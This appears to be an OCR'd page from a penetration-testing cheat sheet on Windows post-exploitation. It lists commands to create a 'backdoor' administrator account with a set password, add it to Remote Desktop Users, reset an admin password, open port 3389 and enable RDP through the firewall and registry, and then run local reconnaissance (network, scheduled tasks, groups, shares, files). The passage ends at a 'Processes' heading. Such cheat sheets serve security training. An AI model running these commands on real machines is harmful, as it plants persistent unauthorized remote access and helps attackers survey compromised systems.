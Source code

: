 Backdoor User:
   •  net user backdoor backdoor@123 /add
   •  net localgroup administrators backdoor /add
   •  net localgroup "Remote Desktop Users" backdoor /add
   • net user admin newpassword 
Enabling RDP
   •  netsh firewall add portopening TCP 3389 "Open Port 3389" ENABLE ALL
   •  netsh firewall set portopening TCP 3389 proxy ENABLE ALL
   •  netsh firewall set service RemoteDesktop enable
   •  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Disable RDP
   •  reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
   •  netsh firewall delete portopening protocol=TCP port=3389


Check log files of some of the services:
   •  http
   • ftp
   • ssh

Windows Post Exploitation:
   •  Arp -a 
   •  netstat -ano 
   •  ipconfig /all 
   •  route print 
   •  schtasks /query /fo LIST /v 
   •  netsh firewall show config
   •  Net group
   •  Net localgroup
   •  (for /R ".\" %A in (*.txt) do echo %~fA %~zA) | findstr /v "echo
   •  Net share
   •  Power shell to Enumerate users and computers using powershell



# Information Gathering - Windows

## System Architecture

|**Command**|**Description**|
|:----------|:--------------|
|ver|Displays the Windows version.|
|systeminfo<BR>systeminfo /S `ComputerName` /U `username` /P `password`|This tool displays operating system configuration information for a local or remote machine, including service pack levels.|
|wmic os list brief|Installed Operating System/s management.|
|wmic computersystem list full|Computer system management.|

## Processes
